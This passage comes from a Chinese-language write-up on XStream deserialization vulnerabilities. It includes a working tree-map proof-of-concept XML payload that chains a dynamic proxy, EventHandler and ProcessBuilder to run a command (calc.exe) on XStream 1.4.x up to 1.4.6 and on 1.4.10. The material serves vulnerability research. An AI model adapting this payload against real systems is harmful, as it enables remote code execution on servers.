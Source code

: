当调用该InternalBlackList转换器的unmarshal()方法时，直接抛出异常：

![img](Xstream反序列化/33.png)

#### 基于tree-map的PoC

##### 适用范围

通杀1.4.x系列有漏洞的版本，即<=1.4.6或=1.4.10。

##### 复现

payload2.xml：

```
<tree-map>
    <entry>
        <string>fookey</string>
        <string>foovalue</string>
    </entry>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc.exe</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```

